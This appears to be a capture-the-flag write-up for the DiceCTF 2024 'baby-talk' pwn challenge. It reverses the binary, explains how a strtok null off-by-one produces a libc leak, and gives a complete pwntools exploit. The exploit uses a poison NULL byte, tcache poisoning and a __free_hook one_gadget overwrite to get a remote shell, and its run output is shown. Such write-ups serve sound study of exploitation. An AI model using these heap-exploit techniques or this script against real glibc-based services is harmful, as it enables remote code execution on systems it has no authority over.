

# [baby-talk](https://ctf.dicega.ng/challs)

## I. Descriptions

take it easy baby, don't you ever grow up, just stay this simple

`nc mc.ax 32526`

## II. Signatures

`strtok()` leads to `off by one` => [Poison NULL byte](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#poison-null-byte)

[Poison NULL byte](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#poison-null-byte) => overlapping chunks => control tcache chunk => inject tcache entry => malloc return arbitrary address => arbitrary write

Arbitrary write => [Inject malloc hooks](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#malloc-hooks) + one gadget => flag.

## III. Setup challenge

### 1. get libc from `pwn.red/jail` docker container

build image and deploy container:

```bash
docker run -p 5000:5000 --privileged $(docker build -q .)
```

get libc file:

```bash
docker cp hardcore_moore:/srv/lib/x86_64-linux-gnu/libc-2.27.so ./
```

### 2. pwninit

```bash
pwninit --template-path ../../../../platforms/template.py --bin chall --libc libc-2.27.so
```

## IV. recon

```bash
╰─❯ file chall 
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d2f83a6455191af173deb5132fdb1c0464cd24bf, not stripped
```

```bash
╰─❯ pwn checksec chall
[*] '/mnt/files/linux/Documents/pwn-everything/CTFs/DiceCTF_2024/baby-talk/bin/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

libc version: 2.27

## V. reverse

by ghidra

### 1. FUN_

```c
undefined8 main(void)

{
  ulong ulong_uc_choice;
  
  setbuf(stdout,(char *)0x0);
  do {
    while( true ) {
      while( true ) {
        print_menu();
        printf("> ");
        ulong_uc_choice = get_num();
        if (ulong_uc_choice != 2) break;
        do_tok();
      }
      if (2 < ulong_uc_choice) break;
      if (ulong_uc_choice == 1) {
        do_str();
      }
      else {
LAB_00100c7b:
        puts("??");
      }
    }
    if (ulong_uc_choice != 3) {
      if (ulong_uc_choice == 4) {
        return 0;
      }
      goto LAB_00100c7b;
    }
    do_del();
  } while( true );
}
```

### 2. choice 1: `do_str`

```c
void do_str(void)

{
  uint idx;
  ulong ulong_uc_size;
  void *ptr_malloced;
  
  idx = get_empty();
  if (idx == 0xffffffff) {
    puts("too many!");
  }
  else {
    printf("size? ");
    ulong_uc_size = get_num();
    if (ulong_uc_size < 0x1001) {
      ptr_malloced = malloc(ulong_uc_size);
      *(void **)(strs + (long)(int)idx * 8) = ptr_malloced;
      if (*(long *)(strs + (long)(int)idx * 8) == 0) {
        puts("no mem!");
      }
      else {
        printf("str? ");
        read(0,*(void **)(strs + (long)(int)idx * 8),ulong_uc_size);
        printf("stored at %d!\n",(ulong)idx);
      }
    }
    else {
      puts("too big!");
    }
  }
  return;
}
```

`strs` is a bss array of pointers that can store up to 16 pointers.

the `get_empty()` function checks if there is any space in the array, if yes then return the index.

allocates a user-controlled size chunk and users can write to that.

#### **bug 1 - user string input doesn’t have terminated null byte at the end**

```c
ptr_malloced = malloc(ulong_uc_size);
```

```c
read(0,*(void **)(strs + (long)(int)idx * 8),ulong_uc_size);
```

### 3. choice 2: `do_tok`

```c
void do_tok(void)

{
  char char_uc_delim;
  undefined terminate;
  char *ptr_strtok_ret;
  ulong ulong_uc_idx;
  char *ptr_malloced;
  
  printf("idx? ");
  ulong_uc_idx = get_num();
  if (ulong_uc_idx < 0x10) {
    ptr_malloced = *(char **)(strs + ulong_uc_idx * 8);
    if (ptr_malloced == (char *)0x0) {
      puts("empty!");
    }
    else {
      printf("delim? ");
      read(0,&char_uc_delim,2);
      terminate = 0;
      ptr_strtok_ret = strtok(ptr_malloced,&char_uc_delim);
      while (ptr_strtok_ret != (char *)0x0) {
        puts(ptr_strtok_ret);
        ptr_strtok_ret = strtok((char *)0x0,&char_uc_delim);
      }
    }
  }
  else {
    puts("too big!");
  }
  return;
}
```

the `strtok` function with the use of a non-stop `while` loop will rewrite all the detected `delim` with null byte.

the `puts` function inside `while` loop will print

#### **vulnerability 1 - info leak**

because of [the no null terminate bug](#bug-1---user-string-input-doesnt-have-terminated-null-byte-at-the-end) and the `puts` function => we can leak data inside buffer.

#### **vulnerability 2 - null off-by-one**

again, because of [the no null terminate bug](#bug-1---user-string-input-doesnt-have-terminated-null-byte-at-the-end) => we can use `strtok` to overwrite out-of-bound character with null byte.

### 4. choice_3: `do_del`

```c
void do_del(void)

{
  ulong ulong_uc_idx;
  
  printf("idx? ");
  ulong_uc_idx = get_num();
  if (ulong_uc_idx < 0x10) {
    if (*(void **)(strs + ulong_uc_idx * 8) == (void *)0x0) {
      puts("empty!");
    }
    else {
      free(*(void **)(strs + ulong_uc_idx * 8));
      *(undefined8 *)(strs + ulong_uc_idx * 8) = 0;
    }
  }
  else {
    puts("too big!");
  }
  return;
}
```

free chunk. no dangling pointer here.

## VI. exploit

### 1. leak libc base

exploit [info leak vulnerability](#vulnerability-1---info-leak).

```python
# leak libc base
challenge_do_str(str(0x420).encode(), b"a")     # idx 0 : largest size of tcache chunk is 0x410 so we create a chunk with size 0x420
challenge_do_str(str(0x10).encode(), b"a")      # idx 1 : barrier with topchunk
challenge_do_del(b"0")                          # del 0 : => unsorted bin
challenge_do_str(str(0x420).encode(), b"a"*8)   # idx 0 : re allocate the chunk inside unsorted bin to leak main_arena address stores inside it
challenge_do_tok(b"0", b"\x01")                 # exploit `info leak vulnerability`

leaked_libc = io.recvline()[-7:-1] + b"\x00"*2
leaked_libc = u64(leaked_libc)
diff = 0x3ebca0 # distance diff from leaked address with libc base
libc.address = leaked_libc - diff
log.success(f"libc.address: {hex(libc.address)}")
# --- end ---
```

### 2. arbitrary write

exploit [null off-by-one](#vulnerability-2---null-off-by-one) to perform a [Poison NULL byte](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#poison-null-byte) lead to chunk overlapping.

I have followed the instructions mentioned in the references provided above.\
This is what happened when debugging, I have not read libc source about this so everything below are my assumptions.

So the `Poison NULL byte` make the next chunk 's prev_size field not updated correctly, with `Poison NULL byte`, everything works normally, except for the code calculating the next chunk location: \


When the prev_size field of second chunk is not updated properly, then we can create two chunk overlapping:

- free chunk `b1`
- free chunk `c`, this action will trigger `unlink(b - or b1 now)` function (remember that you have to setup necessary values to bypass the security check `corrupted size vs. prev_size` in unlink function), result in a new merged chunk with:
  - size: original size of chunk `b` (saved in chunk c header) + size of chunk c
  - pointer: point to b (b1 now)

=> chunk `b2` and newly merged chunk are overlapping.

I can exploit the `overlapping` chunk to gain `arbitrary write` with `hijack tcache entry` technique (I don't know what it is called because I found this technique myself when reading tcache source for exploit double free vuln), you can read it [here](../../../challenges/pwnable.tw/challenges/Tcache%20Tear/README.md#vi-read-libc-227-tcache-for-double-free)

### 3. arbitrary write => rce

- rewrite GOT ? NO: Full RELRO
- ret2libc, ROP chain ? NO: ASLR, no stack addr leak

time to use [hijack Malloc hooks < 2.34](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#malloc-hooks) with one_gadget.

constraints (from [here](https://github.com/Naetw/CTF-pwn-tips?tab=readme-ov-file#hijack-hook-function)):

- Have libc base address - passed
- Write to arbitrary address - passed
- The program uses malloc, free or realloc. - passed
  
## VII. flag

### 1. poc

[solve.py](./bin/solve.py):

```python
#!/usr/bin/env python3

from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

exe = ELF("chall_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe

host = "mc.ax"
port = 32526
# host = "localhost"
# port = 5000

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
start
bp main+0
bp do_str+0
bp do_tok+0
bp do_del+0
'''.format(**locals())

info = lambda msg: log.info(msg)
sla = lambda msg, data: io.sendlineafter(msg, data)
sa = lambda msg, data: io.sendafter(msg, data)
sl = lambda data: io.sendline(data)
s = lambda data: io.send(data)

def challenge_do_str(size: bytes, input:bytes):
    sla(b"> ", b"1")
    sla(b"size? ", size)
    sa(b"str? ", input)

def challenge_do_tok(idx: bytes, delim: bytes):
    sla(b"> ", b"2")
    sla(b"idx? ", idx)
    sa(b"delim? ", delim)

def challenge_do_del(idx: bytes):
    sla(b"> ", b"3")
    sla(b"idx? ", idx)

io = start()

# leak libc base
challenge_do_str(str(0x420).encode(), b"a")     # idx 0 : largest size of tcache is 0x410 so we create a chunk of size 0x420
challenge_do_str(str(0x10).encode(), b"a")      # idx 1 : barrier with topchunk
challenge_do_del(b"0")                          # del 0 : => unsorted bin
challenge_do_str(str(0x420).encode(), b"a"*8)   # idx 0 : re allocate chunk inside unsorted bin to leak main_arena address inside it
challenge_do_tok(b"0", b"\x01")                 # exploit `info leak vulnerability`

leaked_libc = io.recvline()[-7:-1] + b"\x00"*2
leaked_libc = u64(leaked_libc)
diff = 0x3ebca0 # distance diff from leaked address with libc base
libc.address = leaked_libc - diff
log.success(f"libc.address: {hex(libc.address)}")
# --- end ---

# poison null byte

challenge_do_str(str(0x18).encode(), b"z"*0x18)                         # 2 (a)
challenge_do_str(str(0x550).encode(), b"b"*0x4f0 + p64(0x500))          # 3 (b): p64(0x500) used to bypass security check `corrupted size vs. prev_size`
challenge_do_str(str(0x550).encode(), b"c"*0x550)                       # 4 (c)
challenge_do_str(str(0x100).encode(), b"d"*0x100)                       # 5: barrier

challenge_do_del(b"3")                                                  # del 3 (b)
challenge_do_tok(b"2", b"\x61")                                         # off-by-one Poison NULL byte => chunk 3's size = 0x500

challenge_do_str(str(0x480).encode(), b"e"*0x18)                        # 3 (b1)
challenge_do_str(str(0x60).encode(), b"f"*0x18)                         # 6 (b2)

challenge_do_del(b"3") # del 3 (b1)
challenge_do_del(b"4") # del 4 (c): trigger unlink(b1) => chunk b2 overlapping with newly merged chunk by unlink

challenge_do_del(b"6") # throw b2 to tcache bin

challenge_do_str(str(0xa00).encode(), b"a"*(0x480 + 0x10) + p64(libc.symbols['__free_hook'])) # create a chunk overlaps with b2 and write to b2->next the address of __free_hook

challenge_do_str(str(0x60).encode(), b"a") # entry = b2-next (__free_hook)

# one_gadget = 0x4f29e
# one_gadget = 0x4f2a5
one_gadget = 0x4f302 # this one_gadget worked
# one_gadget = 0x10a2fc

challenge_do_str(str(0x60).encode(), p64(libc.address + one_gadget)) # arbitrary write: write one_gadget to __free_hook

challenge_do_del(b"5") # trigger __free_hook

io.sendline(b"cat flag.txt") # boom
log.success(io.recvline())
io.close()
```

### 2. results

```bash
╭─   ~/Documents/pwn-everything/CTFs/DiceCTF_2024/baby-talk/bin   main !2 ?1                                                                           ✘ INT  33m 54s seadragnol@whiskeredbbl  01:50:20
╰─❯ python3 solve.py
[+] Opening connection to mc.ax on port 32526: Done
[+] libc.address: 0x7d3ebbe51000
[+] dice{tkjctf_lmeow_fee9c2ee3952d7b9479306ddd8e477ca}
[*] Closed connection to mc.ax port 32526

```

## IX. References

[Poison NULL byte](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#poison-null-byte)

[more detailed Poison NULL byte](https://panda0s.top/2021/06/23/poison-null-byte/)

[tcache technique](../../../challenges/pwnable.tw/challenges/Tcache%20Tear/)
